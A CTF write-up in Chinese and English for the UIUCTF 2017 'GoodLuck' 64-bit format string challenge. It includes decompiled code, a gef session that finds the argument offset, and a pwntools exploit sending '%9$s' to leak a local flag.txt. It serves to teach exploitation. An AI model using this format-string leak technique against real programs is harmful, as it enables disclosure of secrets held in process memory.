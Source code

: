 # UIUCTF 2017 GoodLuck

> UIUCTF 2017
>
> challenge name: GoodLuck
>
> file: `goodluck, flag.txt` 原题是远程的flag.txt，这里使用一个本地的代替
>
> files link: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/fmtstr/2017-UIUCTF-pwn200-GoodLuck
>
> writeup writer: hexhex16@outlook.com
>
> refer writeup: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/fmtstr/2017-UIUCTF-pwn200-GoodLuck

- 64bit format string 格式化字符串漏洞，64bit版本，漏洞利用点很明显，没有其他难点，故payload也很短，适合作为64bit fmt str的简单示例
- 目的是获取远端的flag.txt的内容，由于条件限制，这里复现时使用的是本地文件



flag.txt 文件内容：

```
flag{11111111111111111}
```



# checksec

```bash
$ checksec --file=goodluck
RELRO          STACK CANARY  NX         PIE     RPATH     RUNPATH     Symbols     FORTIFY Fortified  Fortifiable FILE
Partial RELRO  Canary found  NX enabled No PIE  No RPATH  No RUNPATH  75) Symbols   No    0          1           goodluck
```

- 开启canary，NX 保护，部分 RELRO 保护

# IDA Analysis

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+3h] [rbp-3Dh]
  int i; // [rsp+4h] [rbp-3Ch]
  int j; // [rsp+4h] [rbp-3Ch]
  char *format; // [rsp+8h] [rbp-38h] BYREF
  _IO_FILE *fp; // [rsp+10h] [rbp-30h]
  char *v9; // [rsp+18h] [rbp-28h]
  char v10[24]; // [rsp+20h] [rbp-20h] BYREF
  unsigned __int64 v11; // [rsp+38h] [rbp-8h]

  v11 = __readfsqword(0x28u);
  fp = fopen("flag.txt", "r");
  for ( i = 0; i <= 21; ++i )
    v10[i] = _IO_getc(fp);
  fclose(fp);
  v9 = v10;
  puts("what's the flag");
  fflush(_bss_start);
  format = 0LL;
  __isoc99_scanf("%ms", &format); // 用户输入点
  for ( j = 0; j <= 21; ++j )
  {
    v4 = format[j];
    if ( !v4 || v10[j] != v4 )
    {
      puts("You answered:");
      printf(format); // 漏洞利用点
      puts("\nBut that was totally wrong lol get rekt");
      fflush(_bss_start);
      return 0;
    }
  }
  printf("That's right, the flag is %s\n", v9);
  fflush(_bss_start);
  return 0;
}
```

# offset: `%9$n`

```assembly
gef➤  b printf
Breakpoint 1 at 0x400640
gef➤  r
Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/2017-UIUCTF-pwn200-GoodLuck/goodluck 
what's the flag
123456
You answered:
Breakpoint 1, __printf (format=0x602830 "123456") at printf.c:28
28  printf.c: 没有那个文件或目录.
─────────────────────────────────────────────────────────[ code:i386:x86-64 ]────
   0x7ffff7a627f7 <fprintf+135>    add    rsp, 0xd8
   0x7ffff7a627fe <fprintf+142>    ret    
   0x7ffff7a627ff                  nop    
 → 0x7ffff7a62800 <printf+0>       sub    rsp, 0xd8
   0x7ffff7a62807 <printf+7>       test   al, al
   0x7ffff7a62809 <printf+9>       mov    QWORD PTR [rsp+0x28], rsi
   0x7ffff7a6280e <printf+14>      mov    QWORD PTR [rsp+0x30], rdx
───────────────────────────────────────────────────────────────────────[ stack ]────
['0x7fffffffdb08', 'l8']
8
0x00007fffffffdb08│+0x00: 0x0000000000400890  →  <main+234> mov edi, 0x4009b8    ← $rsp
0x00007fffffffdb10│+0x08: 0x0000000031000001
0x00007fffffffdb18│+0x10: 0x0000000000602830  →  0x0000363534333231 ("123456"?)
0x00007fffffffdb20│+0x18: 0x0000000000602010  →  "You answered:\ng"
0x00007fffffffdb28│+0x20: 0x00007fffffffdb30  →  "flag{11111111111111111"
0x00007fffffffdb30│+0x28: "flag{11111111111111111"
0x00007fffffffdb38│+0x30: "11111111111111"
0x00007fffffffdb40│+0x38: 0x0000313131313131 ("111111"?)
──────────────────────────────────────────────────────────────────────────────[ trace ]────
[#0] 0x7ffff7a62800 → Name: __printf(format=0x602830 "123456")
[#1] 0x400890 → Name: main()
```

- 64bit Linux前6个参数在对应寄存器中，而分析栈可知flag在栈上的偏移为5，去除RA，则flag为第4个。fmt str存储在RDI寄存器中，是第一个参数，寄存器总共传递了6个参数，故flag相对于fmt str的距离为 `4+6-1=9`。故输入 `%9$s` 即可得到 flag 的内容
- 另外可以使用pwdgdb( https://github.com/scwuaptx/Pwngdb ) 中的fmtarg判断某个参数的偏移

```
gef➤  fmtarg 0x00007fffffffdb28
The index of format argument : 10
```





# exploit

```python
from pwn import *
context.log_level = "DEBUG"
goodluck = ELF('./goodluck')
sh = process('./goodluck')
payload = b"%9$s"
print(payload)
# gdb.attach(sh)
sh.sendline(payload)
print(sh.recv())
sh.interactive()
```



